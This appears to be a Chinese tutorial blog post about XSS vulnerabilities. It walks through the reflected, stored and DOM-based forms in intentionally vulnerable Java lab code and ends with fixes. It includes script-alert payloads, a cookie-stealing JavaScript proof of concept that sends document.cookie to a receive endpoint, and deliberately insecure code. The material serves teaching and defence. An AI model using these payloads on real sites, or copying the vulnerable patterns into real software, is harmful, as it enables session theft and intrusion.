# 深入刨析从代码层面看xss漏洞的产生和修复-先知社区

> **来源**: https://xz.aliyun.com/news/17211  
> **文章ID**: 17211

---

# 深入刨析从代码层面看xss漏洞的产生和修复

## 前言

最近开始从代码层面研究一下漏洞的产生了，就和 **whgojp师傅**说的一样

我们经常面临着一些问题：**1、研发不知道为什么这是个漏洞？2、研发不知道这个漏洞怎么修复？**

​

那就从简单的xss开始入门吧

## XSS

### 反射型

#### 漏洞代码

##### json 解析到页面

封装到 json 再解析到页面

```
public R vul1(String content) {
    return R.ok(content);
}
```

我们发起请求

```
GET /xss/reflect/vul1?content=%3Cscript%3Ealert(%2Fxss%2F)%3C%2Fscript%3E&type=&_=1738823118698 HTTP/1.1
Host: 127.0.0.1:9898
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:9898/xss/reflect/vul
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_ID_ANONYMOUS=97269975b0004387b7443950946b97a8; DETECTED_VERSION=5.2.0; MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; JSESSIONID=E6B03C38C24E570648FC87997AAB56B4
Connection: keep-alive


```

传入了 xss 的 payload



R 其实就是一个封装类



得到的响应

```
HTTP/1.1 200 
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: application/json
Date: Thu, 06 Feb 2025 06:34:06 GMT
Keep-Alive: timeout=60
Connection: keep-alive
Content-Length: 48

{"msg":"<script>alert(/xss/)</script>","code":0}
```

当然如果只是这样是不会 xss 的，相当于前后的分离，只传了数据，然后需要解析到前端

然后就会解析



##### 直接返回 string

```
GET /xss/reflect/vul2?content=%3Cscript%3Ealert(/xss/)%3C/script%3E HTTP/1.1
Host: 127.0.0.1:9898
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9898/xss/reflect/vul
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_ID_ANONYMOUS=97269975b0004387b7443950946b97a8; DETECTED_VERSION=5.2.0; MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; JSESSIONID=E6B03C38C24E570648FC87997AAB56B4
Connection: keep-alive


```



直接返回了



##### Content-Type

这里分为两种  
text/plain 和 text/html

```
public void vul3(String type,String content, HttpServletResponse response) {
    switch (type) {
        case "html":
            response.getWriter().print(content);
            response.setContentType("text/html;charset=utf-8");
            response.getWriter().flush();
            break;
        case "plain":
            response.getWriter().print(content);
            response.setContentType("text/plain;charset=utf-8");
            response.getWriter().flush();
            ...
    }
}
```

其实区别很简单

如果是 text/html：浏览器在获取到这种文件时会自动调用 html 的解析器对文件进行相应的处理

当为 text/plain 的时候，我们写入 xss 在页面上



可以看到的是它单纯只是 txt 文本，并没有去解析标签什么的

当我们的 type 是 html 的时候



可以看到解析了并弹窗了

  
识别了我们的标签

但是一般默认为 text/html

#### 造成危害

当然危害就常用的窃取 cookie 了

```
http://127.0.0.1:9898/xss/reflect/vul3?type=html&content=%3Ca%20href=%27/other/cookie.txt%27%20target=%27_blank%27%3E%E7%82%B9%E5%87%BB%E6%9F%A5%E7%9C%8B%3C/a%3E%3Cscript%20src=%27/static/js/hackcookie.js%27%3E%3C/script%3E
```

poc

```
/**
 * @description 用来盗取用户认证cookie信息
 * @author:  whgojp
 * @email:  whgojp@foxmail.com
 * @Date: 2024/6/29 17:34
 */

var url = '/xss/other/receive?cookie='+encodeURIComponent(document.cookie);
var params = {
    method: 'GET',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
    },
};

fetch(url, params)
    .then(function(response) {
        if (!response.ok) {
            throw new Error('Network response was not ok');
        }
        return response.text();
    })
    .then(function(data) {
        // 请求成功处理
        console.log(data);
    })
    .catch(function(error) {
        // 请求失败处理
        console.error('Fetch Error: ', error);
    });
```

点击链接后就会得到了



### 存储型

#### 漏洞代码

这个其实和反射的区别就在于持久性利用，因为我们的数据不是只返回到页面了，输入的数据还会放在数据库中

我们看看储存型 xss 的漏洞代码流程

首先肯定是我们的 Controller 层

```
public R vul(@ApiParam(name = "content", value = "请求参数", required = true) @RequestParam String content,HttpServletRequest request) {
    log.info("存储型XSS：" + content);
    String ua = request.getHeader("User-Agent");
    final int code = xssService.insertOne(content,ua);
    if (code == 1) {
        log.info("插入数据成功！");
        return R.ok("插入数据成功！");
    } else return R.error("数据插入失败");
}
```



然后把参数传入到了我们的服务层

```
public int insertOne(String content, String ua) {
    final int code = xssMapper.insertAll(content,ua,DateUtil.now());
    return code;
}
```

跟着 Mapper 层



sql 语句如上

会插入我们的数据库中



造成的效果是只要当我们访问这个页面的时候，就会提取出数据库中的恶意 payload

然后再次造成 zxx

我们刷新页面观察是否弹出



可以看到加载的时候就弹出了

### DOM 型 XSS

#### 漏洞代码

作者给的图



这个纯前端了，因为不会经过服务器和数据库

常见的 sink 点

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

```
// innerHTML
form.on('submit(vul1-dom-raw)', function (data) {
    var userInput = document.getElementById('vul1-dom-raw-input').value;
    var outputDiv = document.getElementById('vul-dom-raw-result');
    outputDiv.innerHTML = userInput;
    return false;
});
```

#### 防御

使用 textContent 代替 innerHTML  
textContent 只会显示文本，不解析 HTML：

```
outputDiv.textContent = userInput;
```

这样即使用户输入 `<script>alert(1)</script>` 也不会被执行，而是作为普通文本显示。

或者使用 innerText

或者过滤用户输入

```
function escapeHTML(str) {
    return str.replace(/</g, "&lt;").replace(/>/g, "&gt;");
}
outputDiv.innerHTML = escapeHTML(userInput);

```

参考<https://github.com/whgojp/JavaSecLab>
